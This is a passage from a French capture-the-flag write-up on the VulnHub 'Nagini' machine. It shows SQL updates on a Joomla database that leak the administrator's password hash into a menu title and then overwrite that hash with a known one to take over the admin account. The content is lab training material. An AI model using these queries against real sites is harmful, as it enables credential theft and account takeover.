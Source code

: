 Il s'agit du menu affiché à la droite de la page d'accueil. Le texte *Home* est celui le plus visible dans cet enregistrement.  

Je teste simplement la requête suivante :  

```plain
update joomla.joomla_menu set title = 'HiThere' where title = 'Home';
```

Bingo ! J'obtiens la modification espérée sur la page. Pus qu'à y placer le password de l'administrateur :  

```plain
update joomla.joomla_menu set title = (select password from joomla.joomla_users where email = 'site_admin@nagini.hogwarts') where title = 'HiThere';
```

![Altered Joomla database VulnHub Nagini CTF](https://github.com/devl00p/blog/raw/master/images/vulnhub/nagini.png)  

Le hash semble assez corsé à casser, il faut dire déjà que c'est du *brcrypt*. A la place je récupère le hash présent dans mon conteneur MySQL et dont je connais le clair (*mysuperpassword*) et j'écrase celui du CTF :  

```plain
update joomla.joomla_users set password = '$2y$10$JjZOcbgpLz4wRxFKcULpCeJloGZ06lMMr7C0Rt6WkiQJWnMmiA0Gm' where email = 'site_admin@nagini.hogwarts';
```
